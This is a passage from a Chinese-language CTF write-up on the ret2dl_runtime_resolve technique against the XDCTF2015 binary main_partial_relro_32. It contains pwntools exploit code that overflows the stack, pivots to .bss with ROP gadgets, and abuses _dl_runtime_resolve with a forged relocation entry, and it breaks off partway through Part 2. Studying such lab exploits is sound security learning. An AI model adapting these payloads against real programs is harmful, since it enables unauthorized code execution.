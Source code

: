 ```python

payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(reloc_arg)+p32(0xdeadbeef) #第二个deadbeef是虚假的返回地址
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))
payload2+='a'*52+string+'a'*12

#gdb.attach(p)
p.sendline(payload2)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627906517968-2bec2a0a-1c92-4641-acf9-67c08527c1ff.png)

#### Part2
这一部分我们就要利用到之前学到的知识了，再此之前我们来再次稍微总结一下上一小步做了什么：在发生栈迁移后，通过read函数在bss段上读入了含有reloc_arg的payload，然后让程序流跳转到了_dl_runtime_resolve，因为在解析动态链接库时reloc_arg具有特异性，所以解析的结果为write函数，从而调用该函数打印出特定的字符串。在part2中要进一步：在stack上伪造write函数的Elf32_Rel结构体，从而调用write函数打印"/bin/sh\x00"；这里还是和之前一模一样的栈迁移：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649


new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)
```

因为参数reloc_arg代表的是write在.rel.plt（ELF JMPREL Relocation Table）中的偏移，即：

```python
reloc_arg==write_Elf32_Rel_addr-rel_plt_start_addr
```

所以在part1的exp中可以将变量reloc_arg替换为fake_reloc_arg：fake_write_Elf32_Rel_addr-rel_plt_start_addr，即：

```python
fake_reloc_arg=fake_write_Elf32_Rel_addr-rel_plt_start_addr
```
